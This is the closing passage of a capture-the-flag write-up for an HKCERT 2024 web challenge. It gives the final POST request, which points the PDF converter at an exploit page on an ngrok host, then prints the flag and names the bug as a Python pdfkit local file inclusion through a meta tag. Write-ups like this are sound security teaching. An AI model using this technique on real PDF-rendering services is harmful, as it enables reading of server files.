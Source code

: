 > Note: Don't forget to add prefix `pdfkit-` in the `<meta>` tag's `name` attribute. See previously mentioned class `Configuration`'s `__init__` method.

Then, send the following POST request to convert the HTML payload into a PDF file:

```http
POST /process HTTP/2
Host: c52b-webpage-to-pdf-2-0.hkcert24.pwnable.hk
Cookie: session_id=foo
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

url=https://1ea2-{REDACTED}.ngrok-free.app/exploit.html
```

Finally, go to `/foo.pdf` to read the flag!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241114211001.png)

- **Flag: `hkcert24{c1oud-is-rand0m-st4ngers-c0mputer-and-libr4ries-are-r4ndom-stang3rs-c0de}`**

## Conclusion

What we've learned:

1. Python pdfkit Local File Inclusion via `<meta>` tag
